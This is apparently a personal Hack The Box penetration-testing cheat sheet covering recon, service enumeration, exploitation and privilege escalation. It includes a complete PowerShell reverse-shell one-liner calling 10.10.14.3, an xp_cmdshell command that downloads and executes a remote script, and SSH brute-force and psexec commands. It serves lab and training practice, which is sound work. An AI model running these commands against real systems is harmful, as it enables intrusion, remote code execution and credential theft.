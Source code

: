 # HTB_cheatsheet

## Recon

### nmap

Scan for open ports: `nmap <IP> -p- -T4` <br />
Scan for services and their versions: `nmap <IP> -p<PORT>,<PORT2>,<...> -T4 -A` <br />

### website technologies
TODO
builtwith.com, wappalyzer (browser addon), whatweb, burpsuite

### email-gathering
TODO
Hunter.io, TheHarvester, breach-parse
  
## Enumeration

## FTP (21)
try to connect to ftp-server: `ftp <IP>`, Username: `anonymous`, Password: `<ENTER>` or `Anonymous` <br />
try to find anything interesting, remember to check for hidden directories as well: `ls -la`

### SSH (22)
try to connect to ssh: `ssh <IP>`. In case of `no matching key exchange method found. Their offer...` use something in lines of `ssh 192.168.57.134 -oKexAlgorithms diffie-hellman-group1-sha1` or `ssh 192.168.57.134 -oKexAlgorithms diffie-hellman-group1-sha1 -c aes128-cbc`<br />
see if a banner is returned (for version detection) and if a password is required <br />
try to connect to ssh via a found private key for user: `ssh -i <PRIV_KEY_FILE> <USER>@IP`. Also try to connect to ssh via a found private key to other users that might have authorized this key.


### SMB (139/445)

try to list available shares on smb: `smbclient -L -N \\\\<IP>\\` <br />
connect to smb-share: `smbclient \\\\<IP>\\<SHARE>` <br />
download file from share: `get \<FILE>` <br />

try to find out version of smb-service: use metasploit module ...smb_version TODO <br />

### HTTP/HTTPS (80/443)

visit webpage in browser

try to enumerate directories via gobuster or dirbuster e.g. `gobuster dir -u https://<IP> -w /usr/share/wordlists/dirbuster/common -k` <br />
typical file extensions are: for Apache .php; for Microsoft asp, aspx; for Others .php, .txt, .rar, .pdf, .docx, ... <br />
(optional) use nikto to find vulnerabilities `nikto -h http(s)://<IP>` <br />


### SQL (Windows)

try to connect via impacket's `mssqlclient.py <USER>@<IP> -windows-auth`<br />
check for admin priviledges to be able to have remote code execution ``SELECT IS_SRVROLEMEMBER (`sysadmin`) `` <br />



## Exploitation

### SSH (22)
try to bruteforce ssh login with hydra `hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://<IP>:<PORT> -t 4 -V` <br />
bruteforcing creates a lot of noise and will probably be discovered.
TODO: what is this? use auxiliary/scanner/ssh/ssh_login

### SMB (139/445)

Try to get a reverse shell for a given user and password via psexec (impacket):
`psexec.py '\<USER>:\<PW>@\<IP>'` <br />

Check for vulnerability in combination with FTP of ms17_010


### HTTP/HTTPS (80/443)
Burpsuite! <br />


### MicrosoftSQL (TODO)

if we have sysadmin privileges we can enable the xp_cmdshell to gain remote code execution on the host
```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure
xp_cmdshell "whoami"
```
we then can download a malicious script from our HTTPServer. We can use a One-Liner reverse shell code and save it as a .ps1 file, e.g. with One-Liner content: `$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`
from the sql server both download and run it directly via `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.3/shell.ps1\");"` <br />
set up the listener beforehand as usual.

### Hosting a webserver to remotely download files onto the victim machine
- Use `sudo python -m SimpleHTTPServer <PORT>` to run a HTTP-Server inside the current directory <br />
- Use `sudo systemctl start apache2` to run a HTTP-Server on /var/www <br />

Download files on linux via `wget http://<IP>/<File>` or curl TODO <br />
Download files on windows via powershell and `certutil -urlcache -f http://<IP>/<FILE> <PATHONVICTIM>\<FILE>` <br />
Download files on windows via cmd TODO

### Creating malicious code with msfvenom
Show available payloads with `msfvenom -l payloads` <br />

## Privilege Escalation

The bible of privesc: `https://www.fuzzysecurity.com/tutorials/16.html`

### Windows
see what user we are: `whoami` <br />
check the CMD history: TODO <br />
check the PowerShell history: `history` or `type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` <br />
try to find known vulnerabilities, e.g. via `https://github.com/rasta-mouse/Sherlock` 

### Linux
see what user we are: `whoami` <br />
check the bash history: `history` or `cat ~/.bash_history` <br />
check sudo privileges of user: `sudo -l` <br />
try to find vulerabilities in kernel, get kernel version with `uname -a` <br />
try to find vulnerable programs running as root with `ps -aux` <br />
if we have no idea what to do: upload `LinEnum.sh` or `linuxprivchecker.py` on target machine (e.g. by via own webserver) and run them, or use `post/multi/recon/local_exploit_suggester` in msfconsole

## Cheatsheets

msfvenom: https://netsec.ws/?p=331
tty shell: https://netsec.ws/?p=337
Reverse-shell 1-liners: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet


